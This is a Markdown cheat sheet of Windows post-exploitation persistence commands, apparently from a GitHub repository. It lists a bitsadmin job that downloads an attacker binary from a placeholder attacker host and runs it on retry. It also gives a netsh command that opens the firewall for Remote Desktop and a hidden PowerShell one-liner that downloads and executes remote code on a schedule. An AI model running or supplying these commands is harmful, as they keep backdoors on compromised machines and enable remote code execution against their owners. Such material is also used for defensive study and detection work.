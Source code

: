 
<script type="text/javascript">
$(document).ready(function() {
$('div.view').hide();
$('div.slide').click(function() {
$(this).next('div.view').slideToggle('fast');
return false;
});
});
</script>

# Windows General Persistence Commands

Commands to run to maintain persistence after you have exploited it and are usually executed from the context of the `cmd.exe` or `command.exe` prompt.


### BITSADMIN Backdoor
Slide #49 of [this slide deck](http://www.slideshare.net/mubix/windows-attacks-at-is-the-new-black-26665607) starts a method of using the `bitsadmin` command (http://msdn.microsoft.com/en-us/library/aa362813(v=vs.85).aspx) to create a backdoor. The steps are as follows:

#### Creating the backdoor
<pre>
c:\> bitsadmin /create mybackdoor
c:\> bitsadmin /addfile mybackdoor http://[AttackerIP]/[AttackerBinary.exe] c:\windows\temp\[AttackerBinary.exe]
c:\> bitsadmin /SETMINRETRYDELAY mybackdoor 86400
c:\> bitsadmin /SETNOTIFYCMDLINE mybackdoor c:\windows\temp\[AttackerBinary.exe] NULL
</pre>

#### Checking to see if everything is set
<pre>
c:\> bitsadmin /getnotifycmdline mybackdoor
c:\> bitsadmin /listfiles mybackdoor
c:\> bitsadmin /RESUME mybackboor
</pre>


### Firewall Exceptions
When you modify a system to talk on the network, you may need to alter the Windows firewall so your traffic is not filtered. The `netsh` command can be used to do this as the command to enable Remote Desktop Protocol below shows:

`netsh firewall set service type = remotedesktop mode = enable`

### Allow a program to listen through the firewall
Taken from http://synjunkie.blogspot.de/2008/03/basic-dos-foo.html

### Powershell Downloader
 * **Command with arguments**: `powershell.exe -w hidden -nop -ep bypass -c "IEX ((new-object net.webclient).downloadstring('http://[domainname|IP]:[port]/[file]'))"`
 * **Description**: According to [posted slides](http://www.slideshare.net/mubix/windows-attacks-at-is-the-new-black-26665607), _"Schedule this and it will execute the shellcode on that page, pulling it each time (so you can change as needed)"_.
